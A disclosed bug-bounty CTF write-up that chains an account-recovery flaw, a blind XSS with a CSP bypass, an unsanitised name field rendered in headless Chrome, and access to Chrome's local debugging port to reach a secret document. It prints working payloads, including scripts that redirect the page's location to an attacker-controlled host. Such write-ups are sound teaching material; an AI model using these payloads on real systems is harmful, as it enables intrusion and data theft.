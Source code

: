 # [h1-415 2020] @_bayotop h1-415-ctf writeup

## Report Details
- **Report ID**: 779113
- **URL**: https://hackerone.com/reports/779113
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-01-21T14:36:13.357Z
- **Disclosed**: 2020-02-03T22:32:09.744Z

## Reporter
- **Username**: bayotop
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
## TL;DR:

Thanks for the challenge!

1. Abusing account recovery via QR codes to get access to jobert@mydocz.cosmic.
2. Blind XSS in `/support/review/<review_id>` (including CSP bypass).
3. Missing input sanitization on `name` parameter when POSTing to `/support/review/<review_id>`.
4. Access to remote debugging port on local Chrome instance leaking ID of secret document.
5. **h1ctf{y3s_1m_c0sm1c_n0w}**

I also included a python script F691360 which is going through the whole challenge (it's a result of a number of scripts I used to automate repetitive tasks).

## Details

### Introduction

https://h1-415.h1ctf.com hosted a simple web application allowing to convert images into PDF files. Anyone could register a trial account. Signing in would give access to the converter and basic account management which allowed only a name change. The converter allowed to upload JPG and PNG files only. The resulting PDF would include the uploaded image and the user's name.

### Step 1 - One '{' is all it takes.

After a few attempts to include HTML in my user name (`<` and `>` were filtered) or trying to upload arbitrary files, both ways seemed as dead ends. I decided to focus on the account recovery flow. 

After a successful registration, the application would generate a QR code for account recovery. The QR code was a string in the following format:

```
ascii_hex(user@example.com):<some_random_secret_in_hex>
```

After submitting the QR code to `/recover`, the applicaion would respond with a new session giving access to the user account. After some trial and error, I noticed that the application would right-strip `{` (and any subsequent `{` and `}`) characters from the email when generating the QR code.

This meant that registering with `jobert@mydocz.cosmic{` would give back a valid QR code for `jobert@mydocz.cosmic`.

### Step 2 - Wow that's cosmic.

After logging in as `jobert@mydocz.cosmic` the support chat would became available as Jobert was a proper customer. The first thing I did was sending `flag` into the support chat. The response was as follows:

```
{"response":"I love flags! Where is yours? Wait... I think someone is converting top secret documents as we speak!"}
```

This response would led me to the deepest rabbit hole I've ever went down. 

Anyway, inspecting the JavaScript files included in the page, I learned that it's possible to end the chat with `quit` or `finish`. Once a chat ended, the application would ask for feedback, claiming that a negative, 1-star feedback would be reviewed by support staff. This just begs for blind XSS.

Submitting a simple XSS payload would confirm that vulnerability on the current page. However, there was a CSP preventing inline script execution:

```
Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' https://raw.githack.com/mattboldt/typed.js/master/lib/; img-src data: *
```

Seeing that CSP instantly reminded me of [Michał Bentkowski's tweet](https://twitter.com/SecurityMB/status/1162690916722839552). It turns out that raw.githack.com would decode the URL path and therefore it was trivial to bypass using:

```
<script src='https://raw.githack.com/mattboldt/typed.js/master/lib%252f..%252f..%252f..%252f..%252fbayotop/playground/master/g2.js'></script>
```

The first payload that I used was `fetch('https://<domain-under-my-control>')` to confirm the vulnerability. However, because of the `default-src` directive it wasn't possible to make connections other than to `self` (`connect-src`). I ended up bypassing this via `window.location = 'https://<domain-under-my-control>'`.

As you can see [in my commit history](https://github.com/bayotop/playground/commits/master) I was stuck at this point for quite a while. The page was rendered in a headless Chrome instance without an authenticated session. As it turned out, the only information needed to proceed to the next step was a glimpse on the DOM and `window.location`.

### Step 3 - One HTML injection isn't enough. 

The DOM revealed that the support stuff had the ability to change a user's name. Using any authenticated session, it was possible to change any user name except for users with ids 1 and 2. Moreover, the name wasn't sanitized this time! This allowed to change a user's name to HTML that would be rendered during the PDF conversion. I quickly confirmed this using `<iframe src='https://<domain-under-my-control>'></iframe>`. Afterwards, I used a different payload - `<script>window.location='http://ip-under-my-control'+window.location</script>` - to learn the context I was in. 

It was `http://localhost:3000/converter/<random-id>.png?user_name=<user_name>`. This meant that I couldn't simply access `file://`.

### Step 4 - The "secret" was 9222.

At this point I got stuck for a long long time. I tried to find other services listening locally (using [aquatone's xlarge list](https://github.com/michenriksen/aquatone)). I was looking for parameter injection through the user name trying to inject `--allow-file-access-from-file` when starting the Chrome instance. I tried to discover new endpoints and look for differences on existing ones when served locally.

I had a lightbulb moment: `I think someone is converting top secret documents as we speak!`. Was the support chat message a hint? It had to be user with id 1. Using the registration form, I figured that the user's username and email were `admin` and `admin@mydocz.cosmic`). It wasn't possible to recover into that account. It all made sense. I had to use the support staff's endpoint to change the admin's user name to `<script>window.location='http://<ip-under-my-control>'</script>` and wait for the admin to upload a file. I tried SQL, NoSQL, XPath injections. I tried path traversal ([jobert's older tweet](https://twitter.com/jobertabma/status/1071091295425191937) was a really good candidate). I tried all possible encodings. The application was kind of slow to respond and after every 500 it would timeout for a few minutes, so all of this took ages. Nothing worked.

While doing my fuzzing I have accidentally overwritten the user name of a bunch other users. At least one noticed as they sent me a message:

```
/var/log/nginx/access.log ... "GET /?x=stop_messing_with_mydocz_account_im_jobert_and_i_need_it HTTP/1.1" ...
/var/log/nginx/access.log ... "GET /?x=see_you_in_San_Francisco HTTP/1.1" ...
/var/log/nginx/access.log ... "GET /?x=but_Im_gonna_snatch_the_swag_pack HTTP/1.1" ...
```

I'm super sorry for interfering! Hopefully I didn't cause too much harm. Please let me know if you managed to grab that swag pack (ideally once we meet in SF :)).

I started to realize this wouldn't work, however, I had no other ideas. Until I saw these 2 messages in a Slack thread (thanks [@soiaxx](https://twitter.com/soiaxx)):

```
if it's chrome headless and u can see the generated pdf, and u can access the devtools port on localhost:9222 by default.... you can access file:// :stuck_out_tongue:
if you can run javascript :smile: so much ifs
```

*For the sake of transparency, it was a completely unrelated thread. I'm not sure if the involved parties knew about this particular CTF.*

I tried setting my user name to `<iframe width=900 height=900 src="http://localhost:9222/"></iframe>` and uploaded a file. It worked, it rendered two words: "Inspectable WebContents". [This StackOverflow answer](https://stackoverflow.com/a/29893173/5136654) mentions a `/json` endpoint showing available debug targets. Jackpot:

{F691310}

Requesting https://h1-415.h1ctf.com/documents/0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab would reveal the flag: **h1ctf{y3s_1m_c0sm1c_n0w}**.

## Impact

Mostly sleep deprivation.

## Attachments
- debug-json.png
- exploit.py
